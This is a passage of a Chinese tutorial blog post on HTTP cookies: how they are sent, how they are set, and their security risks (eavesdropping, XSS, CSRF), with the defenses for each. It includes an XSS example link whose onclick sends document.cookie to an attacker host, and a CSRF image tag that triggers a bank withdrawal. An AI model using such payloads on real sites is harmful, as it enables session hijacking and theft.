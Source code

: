  

#### 从客户端把cookie发送到服务器

从客户端发送cookie给服务器的时候，是不发送cookie的各个属性的，而只是发送对应的名称和值。

[![复制代码](https://common.cnblogs.com/images/copycode.gif)](javascript:void(0);)

```
GET /spec.html HTTP/1.1  

Host: www.example.org  

Cookie: name=value; name2=value2  

Accept: */*  
```

[![复制代码](https://common.cnblogs.com/images/copycode.gif)](javascript:void(0);)

 

#### 关于修改，设置cookie

除了服务器发送给客户端（浏览器）的时候，通过Set-Cookie，创建或更新对应的cookie之外，还可以通过浏览器内置的一些脚本，比如javascript，去设置对应的cookie，对应实现是操作js中的document.cookie。

### 安全

多数网站使用cookie作为用户会话的唯一标识，因为其他的方法具有限制和漏洞。如果一个网站使用cookies作为会话标识符，攻击者可以通过窃取一套用户的cookies来冒充用户的请求。从服务器的角度，它是没法分辨用户和攻击者的，因为用户和攻击者拥有相同的身份验证。 下面介绍几种cookie盗用和会话劫持的例子：

#### 网络窃听

网络上的流量可以被网络上任何计算机拦截，特别是未加密的开放式WIFI。这种流量包含在普通的未加密的HTTP清求上发送Cookie。在未加密的情况下，攻击者可以读取网络上的其他用户的信息，包含HTTP Cookie的全部内容，以便进行中间的攻击。比如：拦截cookie来冒充用户身份执行恶意任务（银行转账等）。

解决办法：服务器可以设置secure属性的cookie，这样就只能通过https的方式来发送cookies了。

#### 跨站点脚本XSS

使用跨站点脚本技术可以窃取cookie。当网站允许使用javascript操作cookie的时候，就会发生攻击者发布恶意代码攻击用户的会话，同时可以拿到用户的cookie信息。

例子：

```
<a href="#" onclick=`window.location=http://abc.com?cookie=${docuemnt.cookie}`>领取红包</a>
```

当用户点击这个链接的时候，浏览器就会执行onclick里面的代码，结果这个网站用户的cookie信息就会被发送到abc.com攻击者的服务器。攻击者同样可以拿cookie搞事情。

解决办法：可以通过cookie的HttpOnly属性，设置了HttpOnly属性，javascript代码将不能操作cookie。



#### 跨站请求伪造CSRF

例如，SanShao可能正在浏览其他用户XiaoMing发布消息的聊天论坛。假设XiaoMing制作了一个引用ShanShao银行网站的HTML图像元素，例如，

```
<img  src = "http://www.bank.com/withdraw?user=SanShao&amount=999999&for=XiaoMing" >
```

如果SanShao的银行将其认证信息保存在cookie中，并且cookie尚未过期，(当然是没有其他验证身份的东西)，那么SanShao的浏览器尝试加载该图片将使用他的cookie提交提款表单，从而在未经SanShao批准的情况下授权交易。

解决办法：增加其他信息的校验（手机验证码，或者其他盾牌）。



#### Cookie的缺陷

- cookie会被附加在每个HTTP请求中，所以无形中增加了流量。
- 由于在HTTP请求中的cookie是明文传递的，所以安全性成问题。（除非用HTTPS)
- Cookie的大小限制在4KB左右。对于复杂的存储需求来说是不够用的。

